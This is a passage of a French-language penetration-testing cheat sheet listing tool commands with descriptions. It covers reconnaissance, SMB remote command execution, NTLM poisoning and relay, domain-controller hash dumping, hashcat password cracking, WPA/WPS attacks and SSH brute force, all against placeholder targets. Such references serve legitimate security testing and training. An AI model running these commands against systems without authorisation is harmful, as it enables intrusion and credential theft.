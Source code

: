 | 8 | dnsenum example.com | Énumération DNS pour recueillir des informations sur un domaine. |
| 9 | theHarvester -d example.com -l 500 -b google | Recueillir des emails, sous-domaines et autres informations à partir des moteurs de recherche. |
| 10 | maltego | Application de renseignement open-source (OSINT) et de forensique. |
| 11 | recon-ng | Framework de reconnaissance web pour la collecte OSINT. |
| 12 | crackmapexec smb 192.168.1.1 -u user -p password --shares | Énumérer les partages SMB avec des identifiants. |
| 13 | crackmapexec smb 192.168.1.1 -u user -p password --exec 'cmd.exe /c whoami' | Exécuter des commandes sur la cible via SMB. |
| 14 | responder -I eth0 | Outil d'empoisonnement réseau pour capturer les hachages SMB/NTLM. |
| 15 | ntlmrelayx.py -smb2support -i | Relayer les hachages NTLM capturés vers le service SMB. |
| 16 | smbrelayx.py -h 192.168.1.1 -c "whoami" | Relayer les hachages NTLM pour exécuter des commandes sur la cible. |
| 17 | responder -I eth0 -w | Exécuter Responder en mode d'analyse complète. |
| 18 | hashcat -a 0 -m 0 /path/to/hashfile /path/to/wordlist | Crackage de mot de passe haute performance. |
| 19 | hashcat -a 3 -m 0 /path/to/hashfile ?a?a?a?a?a?a | Attaque par masque avec force brute pour les mots de passe de longueur 6. |
| 20 | hashcat -a 3 -m 1000 /path/to/hashfile ?l?l?l?l | Attaque par masque avec lettres minuscules pour les hachages NTLM. |
| 21 | hashcat -a 0 -m 1800 /path/to/hashfile /path/to/wordlist | Attaque par dictionnaire sur les hachages SHA-512. |
| 22 | hashcat -a 1 -m 0 /path/to/hashfile /path/to/wordlist /path/to/rules | Attaque combinatoire utilisant deux listes de mots. |
| 23 | hashcat -a 6 -m 0 /path/to/hashfile /path/to/wordlist ?d?d | Attaque hybride avec dictionnaire et suffixe à 2 chiffres. |
| 24 | hcxdumptool -i wlan0 -o capture.pcapng --enable_status=1 | Capturer des poignées de main et PMKID pour le crackage WPA. |
| 25 | hcxtools -m /path/to/pmkid /path/to/capture.pcapng | Extraire PMKID du fichier de capture. |
| 26 | reaver -i wlan0 -b [BSSID] -vv | Effectuer une attaque par force brute sur le PIN WPS. |
| 27 | wifite | Outil d'attaque sans fil automatisé pour cracker WEP/WPA/WPA2. |
| 28 | legion | Framework de test de pénétration réseau automatisé. |
| 29 | patator | Brute-forceur multi-usage et énumérateur. |
| 30 | medusa -h 192.168.1.1 -u admin -P /path/to/passwords.txt -M ssh | Attaque par force brute sur le login SSH en utilisant Medusa. |
| 31 | bloodhound-python -d example.com -u user -p password -c all | Outil d'énumération Active Directory. |
| 32 | impacket-getTGT user -dc-ip 192.168.1.1 | Obtenir un TGT Kerberos en utilisant Impacket. |
| 33 | impacket-secretsdump -just-dc-ntlm 192.168.1.1 | Extraire les hachages NTLM d'un contrôleur de domaine. |
| 34 | impacket-psexec -target 192.168.1.1 -u user -p password | Exécution de commande à distance via SMB. |
| 35 | impacket-wmiexec -target 192.168.1.1 -u user -p password | Exécution de commande à distance via WMI. |
| 36 | impacket-smbexec -target 192.168.1.1 -u user -p password | Exécution de commande à distance via SMB. |
| 37 | sslscan 192.168.1.1 | Scanner SSL/TLS pour détecter les protocoles et chiffrements supportés. |
| 38 | sslyze --regular 192.168.1.1 | Scanner de configuration SSL/TLS. |
| 39 | openssl s_client -connect 192.168.1.1:443 | Tester la connexion SSL/TLS à un serveur. |
| 40 | testssl.sh 192.168.1.1 | Tester la sécurité SSL/TLS sur un serveur. |
| 41 | curl -I http://192.168.1.1 | Récupérer les en-têtes HTTP pour recueillir des informations sur le serveur. |
| 42 | curl -X POST -d "username=admin&password=1234" http://192.168.1.1/login.php | Envoyer une requête HTTP POST au formulaire de connexion. |
| 43 | curl -O http://192.168.1.1/file.txt | Télécharger un fichier depuis un serveur web. |
| 44 | curl -H "User-Agent: Mozilla/5.0" http://192.168.1.1 | Envoyer une requête avec un en-tête User-Agent personnalisé. |